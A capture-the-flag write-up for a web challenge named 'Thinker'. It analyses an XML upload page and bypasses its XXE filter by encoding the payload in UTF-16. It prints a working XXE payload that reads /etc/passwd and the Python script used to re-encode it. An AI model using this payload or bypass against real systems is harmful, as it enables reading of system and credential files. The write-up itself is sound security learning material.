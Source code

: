 # Thinker

**source code**:

[Thinker.tar.xz](Thinker%20308d246d18ad48e6adc3aa51d8607938/Thinker.tar.xz)

## Analysation of the app:

There is an about page which reveals us the flag position:

![Untitled](Thinker%20308d246d18ad48e6adc3aa51d8607938/Untitled.png)

The User page shows us some sample user database:

![Untitled](Thinker%20308d246d18ad48e6adc3aa51d8607938/Untitled%201.png)

In upload page,  there we can upload xml files into the server.

**Sample test xml file:**

![Untitled](Thinker%20308d246d18ad48e6adc3aa51d8607938/Untitled%202.png)

**Output:**

![Untitled](Thinker%20308d246d18ad48e6adc3aa51d8607938/Untitled%203.png)

## Analysing the source code:

The upload.php has the following code: 

![Untitled](Thinker%20308d246d18ad48e6adc3aa51d8607938/Untitled%204.png)

][This particular code pops the values in the xml files into the webpage only if the variable $isvalid is true in the if condition.

And this is how the variable is set:

![Untitled](Thinker%20308d246d18ad48e6adc3aa51d8607938/Untitled%205.png)

So basically this code is preventing xxe injections.

While surfing the internet about bypassing the filters on **xxe** injection, I got this:

![Untitled](Thinker%20308d246d18ad48e6adc3aa51d8607938/Untitled%206.png)

With the help of such encodings, it is easy to bypass a WAF using regular expressions since, in this type of WAF, regular expressions are often configured only for a one-character set.

So now we can try xxe injection payload with different encodings other than UTF-8:

```xml
<!DOCTYPE user [ <!ENTITY passwd SYSTEM "file:///etc/passwd">]>
<users>
    <user>
        <name>name</name>
        <email>email</email>
        <group>group</group>
        <intro>&passwd;</intro>
    </user>
</users>
```

I encoded the xml file in UTF-16 using a python script:

```python
input_file = "input.xml"
output_file = "output_utf16.xml"

with open(input_file, 'r', encoding='utf-8') as utf8_file:
    content = utf8_file.read()
with open(output_file, 'w', encoding='utf-16') as utf16_file:
    utf16_file.write(content)
```

This is how the hex of the file look like after encoding:

![Untitled](Thinker%20308d246d18ad48e6adc3aa51d8607938/Untitled%207.png)

The output after uploading the file:

![Untitled](Thinker%20308d246d18ad48e6adc3aa51d8607938/Untitled%208.png)

Yeah we got passwd file of the system, So you know how to get the flag right!!